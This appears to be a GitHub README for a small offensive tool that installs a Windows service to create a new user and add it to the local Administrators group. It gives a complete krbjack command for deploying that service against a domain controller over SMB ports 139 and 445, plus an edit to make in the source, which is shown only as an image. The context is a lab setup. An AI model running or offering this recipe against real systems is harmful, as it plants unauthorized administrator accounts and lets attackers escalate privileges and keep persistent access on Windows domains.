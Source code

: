 # svcadduserAdmin
Simple service that creates a new user and adds it in localgroup Administrators


I used it with https://github.com/almandin/krbjack

usage:

![image](https://github.com/foxlox/svcadduserAdmin/assets/28823598/ba3fb701-4446-4a6d-9dae-d3ab5cc3f7f7)


edit the source file in the picture at line 57 and replace:
str(uuid etc) with 'service1'


then run
python3 -m krbjack --target-name winattacker --domain bluelab.local --dc-ip 172.27.18.19 --ports 139,445 --executable /opt/service1.exe

kaliattacker: victim


enjoy

